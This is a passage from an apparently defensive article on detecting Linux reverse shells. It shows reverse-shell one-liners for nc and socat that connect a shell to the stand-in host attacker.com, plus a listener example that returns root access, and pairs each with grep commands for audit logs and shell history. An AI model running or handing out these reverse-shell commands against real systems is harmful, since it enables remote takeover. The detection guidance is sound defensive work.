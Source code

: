 For detection; When the bash command is run, the usage status of  /dev/tcp or /dev/udp expressions on the command line is monitored.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “bash” | egrep “udp|tcp”   - Searchable from history on Linux system.  # history |grep “bash” | egrep “udp|tcp”  or  # cat ~/.bash_history | grep “bash” | egrep “udp|tcp”   - It can be searched from the "bash", process create or network  connection events in the EDR/XDR logs. Afterwards, it is checked whether there is a "udp" or "tcp" parameter on the command line.

### **# nc command**

The **nc** (netcat) application is a simple *nix  application that reads and writes data over the network using tcp or udp protocols. nc application can be used in activities such as reverse  shell or bind shell. The -e parameter stands for “exec” and transmits  the data coming from the defined port such as /bin/sh or /bin/bash to  the defined shell. As in the example below, commands transmitted from  the command center are run by /bin/sh because incoming requests are  directed to /bin/sh.

```
# RHOST=attacker.com  # RPORT=12345  # nc -e /bin/sh $RHOST $RPORT
```

After the above commands are run, access to the target system  (command center) is established. Information transmitted from the target system is forwarded to /bin/sh and executed by /bin/sh.

```
# nc -l -p 12345  id (After connecting with the command above, the "id" command was run.)  uid=0(root) gid=0(root) groups=0(root)
```

For detection; All uses of the nc command except known operations  require examination. Therefore, if the execution of the command is not a known activity, it is considered suspicious. Uses, especially with the  -e and -l parameter, can be questionable.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “nc” | grep "\-e"   - Searchable from history on Linux system.  # history |grep “nc” | grep "\-e"  or  # cat ~/.bash_history | grep “nc” | grep "\-e"   - It can be searched from “nc” process create or network connection  events in EDR/XDR logs. Afterwards, the "-e" parameter usage status is  checked on the command line.

### **# socat command**

**socat** can be considered as an alternative to the netcat (nc) command. It provides access to the target system via tcp or udp  protocol. It enables to run the information that comes with the "exec"  parameter. By sending this information to a *nix shell, remote command  execution can be achieved.

```
# RHOST=attacker.com  # RPORT=12345  # socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

For detection; All uses of the socat command except for the known  operations require investigation. In addition, the "exec" parameter and  the tcp-connect parameter of the command are considered suspicious and  they should be investigated.

- Searchable in Linux audit logs.  # cat /var/log/audit/audit.log | grep “socat” | grep -i “exec”   - Searchable from history on Linux system.  # history |grep “socat” | grep -i “exec”  or  # cat ~/.bash_history | grep “socat” | grep -i “exec”   - It can be searched from "socat" process create or network connection  events in EDR/XDR logs. Afterwards, it should be checked whether there  is an "exec" parameter on the command line.
